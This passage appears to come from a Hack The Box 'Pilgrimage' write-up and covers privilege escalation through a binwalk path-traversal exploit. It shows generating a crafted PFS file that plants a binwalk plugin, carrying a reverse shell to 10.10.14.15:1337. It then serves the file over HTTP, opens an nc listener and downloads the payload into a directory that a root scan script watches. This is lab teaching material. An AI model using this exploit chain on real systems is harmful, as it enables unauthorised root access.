 ```bash
```

We first need to create a `.png` file and then run the script:

```bash
$ sudo touch exploit.png
$ sudo python3 walkingpath.py reverse exploit.png 10.10.14.15 1337
$ ls -l
total 20
-rw-r--r-- 1 root root  709 Jan 18 16:04 binwalk_exploit.png
-rw-r--r-- 1 root root    0 Jan 18 16:02 exploit.png
-rw-r--r-- 1 root root 7048 Jan 18 15:40 LICENSE
-rw-r--r-- 1 root root 1569 Jan 18 15:40 README.md
-rwxr-xr-x 1 root root 3391 Jan 18 15:40 walkingpath.py
```

A new file is generated: `binwalk_exploit.png` and although it shows as a `data` file, it is really a [`PFS`](https://lekensteyn.nl/files/pfs/pfs.txt) file. We need to transfer this file to the target and then make it be used by the `malwarescan.sh` script:

```bash
$ file binwalk_exploit.png
binwalk_exploit.png: data

$ xxd binwalk_exploit.png
00000000: 5046 532f 302e 3900 0000 0000 0000 0100  PFS/0.9.........
00000010: 2e2e 2f2e 2e2f 2e2e 2f2e 636f 6e66 6967  ../../../.config
00000020: 2f62 696e 7761 6c6b 2f70 6c75 6769 6e73  /binwalk/plugins
00000030: 2f62 696e 7761 6c6b 2e70 7900 0000 0000  /binwalk.py.....
<SNIP>

$ python3 -m http.server 8888
Serving HTTP on 0.0.0.0 port 8888 (http://0.0.0.0:8888/) ...
```

We need to transfer the file to `/var/www/pilgrimage.htb/shrunk/` as this is where `binwalk` picks it up in the `malwarescan.sh` script. Let's also open a listener before doing that:

```bash
$ nc -lvnp 1337
listening on [any] 1337 ...
```

Now we can tranfer the file:

```bash
emily@pilgrimage:/var/www/pilgrimage.htb/shrunk$ wget http://10.10.14.15:8888/binwalk_exploit.png
--2024-01-19 03:28:29--  http://10.10.14.15:8888/binwalk_exploit.png
Connecting to 10.10.14.15:8888... connected.
HTTP request sent, awaiting response... 200 OK
Length: 709 [image/png]
Saving to: ‘binwalk_exploit.png’

binwalk_exploit.png   100%[========================>]     709  --.-KB/s    in 0s

2024-01-19 03:28:29 (87.4 MB/s) - ‘binwalk_exploit.png’ saved [709/709]
```
